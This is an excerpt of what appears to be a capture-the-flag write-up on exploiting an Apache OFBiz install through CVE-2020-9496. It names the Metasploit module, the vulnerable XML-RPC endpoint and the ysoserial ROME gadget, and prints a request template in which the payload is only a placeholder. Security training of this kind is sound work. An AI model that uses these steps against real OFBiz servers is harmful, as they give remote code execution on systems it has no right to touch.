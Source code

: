 Going over to `/content` there is a login page of an OFBiz installation which also leaks the version running.

[![ofbiz_home](/img/monitors/ofbiz_home.png)](/img/monitors/ofbiz_home.png)

[![ofbiz_version](/img/monitors/ofbiz_version.png)](/img/monitors/ofbiz_version.png)

### insecure deserializtion

The installation is vulnerable to CVE-2020-9496. The exploit abuses insecure java deserialization in a `XML-RPC` request.
We will use the msf module `linux/http/apache_ofbiz_deserialization` to exploit this.
The exploit sends a `XML-RPC` POST request with a `ysoresial` generated `ROME` payload to the `/webtools/control/xmlrpc` endpoint, where it get's deserialized resulting in RCE.

```xml
<?xml version="1.0"?>
        <methodCall>
          <methodName>METHODNAME</methodName>
          <params>
            <param>
              <value>
                <struct>
                  <member>
                  <name>NAME</name>
                    <value>
                      <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">PAYLOAD</serializable>
                    </value>
                  </member>
                </struct>
              </value>
            </param>
          </params>
        </methodCall>
```
